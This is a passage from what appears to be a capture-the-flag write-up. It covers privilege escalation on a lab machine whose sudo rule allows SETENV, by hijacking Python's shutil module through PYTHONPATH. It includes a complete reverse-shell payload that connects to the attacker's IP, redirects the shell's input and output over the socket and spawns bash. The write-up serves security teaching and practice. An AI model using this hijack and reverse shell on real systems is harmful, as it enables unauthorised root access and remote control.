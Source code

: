 ```bash
COLUMNS=11
select opt in "${options[@]}"; do
    case $REPLY in
        1) view_uptime ; break ;;
        2) view_users ; break ;;
        3) view_crontab ; break ;;
        4) backup_passwd ; break ;;
        5) backup_shadow ; break ;;
        6) backup_web ; break ;;
        7) backup_db ; break ;;
        8) echo "Bye!" ; break ;;

        *) echo "Unknown option." >&2
    esac
done
...
```

`/opt/scripts/backup.py` contains the following:

```python
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

Since the `sudo -l` output contained `SETENV`, I can use a python library hijacking attack with `PYTHONPATH` to get a shell.

I create the following file: `/home/waldo/shutil.py`.

```python
import os
import pty
import socket

lhost = "10.10.14.27"
lport = 443

def make_archive(arg1, arg2, arg3):
    return

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((lhost, lport))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.putenv("HISTFILE",'/dev/null')
pty.spawn("/bin/bash")
s.close()
```

